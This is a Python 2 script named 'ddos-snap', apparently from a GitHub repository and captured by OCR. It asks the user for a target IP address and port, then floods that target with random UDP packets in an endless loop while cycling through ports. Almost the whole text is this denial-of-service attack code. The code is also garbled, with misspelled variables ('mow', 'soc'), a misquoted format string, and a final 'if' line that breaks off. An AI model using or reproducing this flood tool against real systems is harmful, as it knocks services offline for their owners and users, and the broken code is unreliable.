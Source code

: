 # ddos-snap
import sys
import os
import time
import socket
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = mow.minute
day = now.day
month = now.month
year = now.year

###########
sock = socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
bytes = random._urandom(1490)
###########

os.system("clear")
os.system("figlet ddos-snap")
print
print "youtube : SNAP SNAP TH"
print "github : snap-ch-th"
print "facebook : 私は違います ピエロ"
print
ip = raw_input("IP TARGET :")
port = input("Enter port :")

os.system("clear")
os.system("figlet ddos-snap Running")
print "[+]--xxxx>                      [+] 0%"
time.sleep(2)
print "[+]--xxxxxxxx>                  [+] 25%"
time.sleep(2)
print "[+]--xxxxxxxxxxxxxxxx>          [+] 50%"
time.sleep(3)
print "[+]--xxxxxxxxxxxxxxxxx>         [+] 75%"
time.sleep(2)
print "[+]--xxxxxxxxxxxxxxxxxxxxxxxxx> [+] 100%"
time.sleep(2)
sent = 0
while True:
    soc.sendto(bytes, (ip,port))
    sent = sent + 1
    port = port + 1
    print "SNAP :-Sent %s packet to %s throught port:%s%(sent,ip,port)"
    if port == 65534;
    
